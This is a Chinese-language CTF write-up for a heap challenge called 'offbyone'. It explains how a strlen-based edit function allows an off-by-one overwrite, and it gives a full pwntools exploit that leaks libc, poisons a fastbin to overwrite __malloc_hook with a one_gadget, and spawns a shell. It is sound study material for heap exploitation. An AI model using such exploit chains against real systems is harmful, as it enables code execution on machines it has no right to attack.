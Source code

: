 ```yaml
---
title: BABY OFFBYONE
date: 2018-10-05 19:34:29
tags: heap pwn
layout: default
---
```

Offbyone 忘记了哪儿的题目...基础offbyone
<!--more-->

# start
一上来我还突发奇想看看可不可以house of force发现有sysmem的限制...
然后因为同时在看另一道heap_interface(一题没有泄露的)把两题搞混了...做了半天发现这题是有泄露的...

# Analysis
题目:[offbyone][1]
木有uaf
```arm
 if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    free(qword_2020C0[v1]);
    qword_2020C0[v1] = 0LL;
    puts("done.");
  }
```
但是可以想办法泄露


主要的漏洞点在
```arm
  if ( v1 >= 0 && v1 <= 15 && qword_2020C0[v1] )
  {
    puts("your note:");
    v2 = strlen((const char *)qword_2020C0[v1]);
    read(0, qword_2020C0[v1], v2);
    puts("done.");
  }
```
如果充满chunk那么nextchunk的size位将被算进strlen就有了offbyone

# 漏洞利用
* 利用offbyone改大nextchunk的size
* 造成overlap：free掉nextchunk进入unsortedbin
* 通过精心设计的两次malloc使得有两个指向同一个chunk的指针，malloc第一次的时候可以shownextchunk来leak
* 通过fastbinatk写malloc_hook为one_gadget
* printerr get shell
# EXP
```python
from pwn import *

p=process('./offbyone')
#context.log_level='debug'
def add(size,x):
    p.recvuntil('>>')
    p.sendline('1')
    p.readuntil('length:')
    p.sendline(str(size))
    p.recvuntil('note:')
    p.send(x)

def edit(id,x):
    p.recvuntil('>>')
    p.sendline('2')
    p.recvuntil('index:')
    p.sendline(str(id))
    p.recvuntil('note:')
    p.send(x)

def free(id):
    p.recvuntil('>>')
    p.sendline('3')
    p.recvuntil('index:')
    p.sendline(str(id))

def show(id):
    p.recvuntil('>>')
    p.sendline('4')
    p.recvuntil('index:')
    p.sendline(str(id))
def debug():
	if 1:
		gdb.attach(p,'''
		heap
		''')	

#######################
#use off by one to    #
#make fastbinsatk     #
#write one_gadget into#
#__malloc_hook 	      #
#######################

add(0x18,"A"*0x18)#0
add(0x88,"B"*0x88)#1
add(0x88,"C"*0x18+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21)+"C"*8+p64(0x21))#2
edit(0,"A"*0x18+"\xb1")
free(1)
add(0x88,"E"*0x88)#3
show(2)
data=p.readline()
base=u64(data[1:-1].ljust(8,"\0"))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address=base
log.warning(hex(base))


add(0x8,p64(0xdeadbeef))
edit(1,"E"*0x88+"\x71")
add(0x68,"D"*0x68)
free(4)
free(3)
edit(2,p64(libc.symbols['__malloc_hook']-35)[:6])

one=0xf02a4
add(0x68,"E"*0x68)
add(0x68,"F"*19+p64(one+base))#OK
#gdb.attach(p)
free(3)
free(2)
p.interactive("nier>")

```
[1]:https://github.com/n132/banana/tree/master/Pwn/heap_trick/offbyone